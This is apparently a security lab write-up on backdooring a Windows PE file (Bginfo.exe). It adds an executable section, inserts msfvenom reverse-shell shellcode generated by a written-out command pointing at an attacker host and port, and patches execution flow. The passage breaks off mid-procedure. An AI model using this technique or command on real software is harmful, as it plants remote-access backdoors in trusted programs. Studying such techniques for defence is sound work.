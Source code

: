 # Backdooring PE Files with Shellcode
*The purpose of this lab is to learn the Portable Executable (PE) backdooring technique by adding a new readable/writable/executable code section with our malicious shellcode to any portable executable file.*

*High level process of this technique:*

*-Add a new RWX PE section, big enough to hold our shellcode, to any .exe file*  
*-Generate shellcode*  
*-Add shellcode to the newly created PE section*  
*-Redirect execution flow of the .exe file being backdoored to the shellcode*  
*-Redirect execution flow back to the legitimate .exe instructions*  

# Generate Shellcode
*First of, let's generate the shellcode so we know how many bytes of space we will need in the new PE section:*

```msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 | hexdump -C```  
![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/fb73271e-7bcc-4e0f-bf7b-a0dab96a4d04)  
*Note that the shellcode size is 324 bytes - the new PE section will have to be at least that big.*

# New PE Code Section
*I randomly chose Bginfo.exe from sysinternals as a binary to be backdoored. Let's add a new PE section called  that will contain our shellcode - note the size is 200h bytes, so plenty for our shellcode which was only 324 bytes:*```.code1```

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/cbd3afd7-743d-4fb5-8229-f9e1e603967a)

*Note the Raw Address of the new section which is CD200 - this is where we will place the shellcode inside the file in later steps.*

*Let's make the new PE section writable/executable and mark it as  using CFF Explorer:*```contains code```

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/716391fe-41a2-4726-8d45-cda36285d1f8)

# Inserting Shellcode
*Let's copy the shellcode over to the new code section, starting at 0xCD200 into the file:*

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/a758cb03-9b26-49d3-8ec2-d90381932539)

# Testing the Shellcode
*Let's see if we can force the Bginfo.exe binary to execute our shellcode using debugger first. We need to find the base address of Bginfo.exe, which we see is 0x00400000:*

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/507dae91-e32c-4b2e-a1af-40da1979b3d4)

*Since the new section .code1 that holds our shellcode has an RVA 000D8000, we can find the shellcode in a running process at 00400000+00d8000 = ‭4D8000‬. Below shows that the bytes at cd200 (file offset) match those at 4d8000 while the bginfo.exe is running:*

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/d2a3b0a1-3a05-46dc-bddd-27901d1f548b)

*When debugging the binary, if we set the EIP to point to 4D8000‬ and let the debugger run, if we have a listener on the attacking system, we get the reverse shell which confirms that we can successfully execute the shellcode if we manage to redirect the code execution flow of bginfo.exe:*

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/d44f53e6-c25d-4a24-a435-a995e5b17d8d)

## i
*In the above screenshot,  and  are the first instructions at 4d8000 - it's not shown in this lab how those two instructions were inserted there, but there is no magic  - just add   bytes  before the shellcode at 0xCD200 in the bginfo and you're set.* ```pushad pushdf 60 9c```

# Redirecting Code Execution Flow
*In previous paragraph we confirmed the shellcode can be executed, but we did this manually, with help of a debugger. Now let's patch the binary, so that the process is automated and does not require our intervention.*

*The process of patching the binary to redirect the code execution flow is as follows:*

*1. Find the first instruction that is 5 bytes in size inside the bginfo.exe binary*  
  *1. We will overwrite this instruction with a jump to the shellcode as explained in step 2*  
  *2. Prior to overwriting this instruction, write it down somewhere - we will need to append it to our shellcode later in order to restore the code   execution flow*  
  *2. Write down the address of the next instruction to be executed next - after the shellcode has been executed, stack and registers restored, we     will jump back to this address to let the bginfo.exe continue as normal*  
*2. Overwrite the instruction in step 1 with a jump to the shellcode at 4D8000‬*  







